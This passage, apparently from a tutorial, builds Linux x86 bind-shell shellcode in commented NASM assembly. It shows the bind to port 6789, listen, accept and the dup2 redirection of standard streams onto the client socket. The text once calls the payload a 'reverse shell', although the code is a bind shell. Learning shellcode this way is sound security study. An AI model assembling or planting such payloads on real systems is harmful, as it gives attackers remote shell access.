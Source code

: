 ### bind
This is where we bind the socket previously created to the local interface prior to start listening for connections.
```nasm
mov edi,eax         ; save sockfd
mov al,0x66         ; socketcall
pop ebx             ; sys_bind - grab 2 from stack
pop ebx             ; take 1 off stack
inc ebx

push word 0x851a    ; port 6789 (reverse byte order)    ; sockaddr struct
push word 2         ; AF_INET                           ; sockaddr struct
mov ecx,esp         ; save pointer to struct in ecx     ; sockaddr struct

push 0x10           ; struct length
push ecx            ; push pointer to struct
push edi            ; push sockfd
mov ecx,esp         ; save stack pointer
int 0x80
```

### listen
At this point we start listening for connections on our specified port.  The backlog parameter defines the allowed queue length of pending connections to our sockfd.  For this example I just set it to 1 but it could be more if multiple connections are wanted.
```nasm
mov al, 0x66        ; socketcall
mov bl, 4           ; sys_listen
push 1              ; parameter: backlog
push edi            ; parameter: sockfd
mov ecx,esp         ; save pointer to stack to ecx
int 0x80
```

### accept
When a client connects to this port we call the accept system call which will give us a new sockfd for the client.  In this case we only care about the identifier but you can also collect more information and save it into a sockaddr struct but this would be useless for us so I set this to NULL.
```nasm
mov al,0x66         ; socketcall
inc bl              ; sys_accept
push edx            ; clientfd (NULL - dont need this)
push edx            ; sizeof(clientfd) (NULL - dont need this)
push edi            ; sockfd
mov ecx,esp         ; save pointer to stack to ecx
int 0x80
```

### dup2
The dup2 function will duplicate the STDOUT/STDIN/STDERR file descriptors onto the sockfd.  This will allow all output to be seen on the sockfd from the connect so the receiver of the reverse shell can see all output.
```nasm
xor ecx,ecx         ; zero out ecx
mov ebx,eax         ; save clientfd
mov al, 0x3f        ; dup2
dup2_loop:
int 0x80            
mov al,0x3f         ; dup2
inc ecx             ; increment ecx until we hit 2
cmp ecx, 2          ; test if we're at 2
jle dup2_loop       ; if not, keep calling dup2
```
